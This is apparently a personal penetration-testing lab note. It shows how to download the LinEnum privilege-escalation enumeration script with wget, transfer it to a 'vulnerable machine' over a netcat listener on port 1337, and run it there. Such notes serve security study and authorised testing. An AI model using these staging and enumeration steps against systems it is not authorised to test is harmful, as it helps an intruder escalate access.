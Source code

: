 ```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Upload this to vulnerable machine:
[[Web Hosting#Python HTTP]]

Netcat:
target:
(May need to be in /tmp for write permissions)
`nc -l -p 1337 > LinEnum.sh`
host:
```
nc -w -3 10.10.30.87 1337 < LinEnum.sh
```

Set permission:
`chmod +x LinEnum.sh`

execute:
`./LinEnum.sh`